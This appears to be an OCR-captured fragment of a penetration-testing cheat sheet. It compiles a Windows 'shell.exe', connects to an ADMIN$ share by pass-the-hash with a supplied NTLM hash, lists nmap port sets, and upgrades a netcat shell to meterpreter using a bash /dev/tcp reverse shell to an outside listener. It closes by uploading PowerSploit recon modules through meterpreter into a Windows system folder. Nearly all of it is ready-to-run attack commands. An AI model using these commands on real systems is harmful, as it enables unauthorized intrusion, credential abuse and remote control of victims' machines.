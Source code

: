 # To compile code for a 32-bit Windows target:
i686-w64-mingw32-gcc shell.c -o shell.exe


## MISC ##################################

# connect to remote share via pass the hash
proxychains pth-smbclient -U FOOPHONES/share_admin%aad3b435b51404eeaad3b435b51404ee:7bada89c6d6782bc59c9a0a4b7f340fa //10.185.10.34/ADMIN$


# nmap script top 20 ports scanned
TCP - 20,21-23,25,53,80,110-111,135,139,143,443,445,993,995,1723,3306,3389,5900,8080

# nmap script top200 ports TCP & UDP
TCP -p 1,3,7,9,13,17,19,21-23,25-26,37,43,53,79-82,88,100,106,110-111,113,119,135,139,143-144,179,199,254-255,280,311,389,427,443-445,464-465,497,513-515,543-544,548,554,587,593,625,631,636,646,787,808,873,902,990,993,995,1000,1022,1024-1033,1035-1041,1044,1048-1050,1053-1054,1056,1058-1059,1064-1066,1069,1071,1074,1080,1110,1234,1433,1494,1521,1720,1723,1755,1761,1801,1900,1935,1998,2000-2003,2005,2049,2103,2105,2107,2121,2161,2301,2383,2401,2601,2717,2869,2967,3000-3001,3128,3268,3306,3389,3689-3690,3703,3986,4000-4001,4045,4899,5000-5001,5003,5009,5050-5051,5060,5101,5120,5190,5357,5432,5555,5631,5666,5800,5900-5925,6000-6002,6004,6112,6646,6666,7000,7070,7937-7938,8000,8002,8008-8010,8031,8080-8081,8443,8888,9000-9001,9090,9100,9102,9999-10001,10010,32768,32771,49152-49157,50000

UDP - p7,9,13,17,19,21-23,37,42,49,53,67-69,80,88,111,120,123,135-139,158,161-162,177,192,199,389,407,427,443,445,464,497,500,514-515,517-518,520,593,623,626,631,664,683,800,989-990,996-999,1001,1008,1019,1021-1034,1036,1038-1039,1041,1043-1045,1049,1068,1419,1433-1434,1645-1646,1701,1718-1719,1782,1812-1813,1885,1900,2000,2002,2048-2049,2148,2222-2223,2967,3052,3130,3283,3389,3456,3659,3703,4000,4045,4444,4500,4672,5000-5001,5060,5093,5351,5353,5355,5500,5632,6000-6001,6346,7938,9200,9876,10000,10080,11487,16680,17185,19283,19682,20031,22986,27892,30718,31337,32768-32773,32815,33281,33354,34555,34861-34862,37444,39213,41524,44968,49152-49154,49156,49158-49159,49162-49163,49165-49166,49168,49171-49172,49179-49182,49184-49196,49199-49202,49205,49208-49211,58002,65024


# upgrade a nc reverse shell to a meterpreter shell with script

1. setup a multi handler listener on metasploit on port 8888 with payload linux/x86/shell_reverse_tcp
2. run the command on nc shell terminal below
3. bash -i >& /dev/tcp/172.16.40.6/8888 0>&1
4. Now we have a reverse meterpreter shell and a nc shell 

## Powershell PowerSploit Module and Usage #########

# uploading an entire directory of Recon to target via meterpreter for using powershell mmodules
meterpreter > upload /home/kali/Shared/Opt-Tools/PowerSploit/Recon/ C:\\Windows\\system32\\WindowsPowerShell\\v1.0\\Modules 
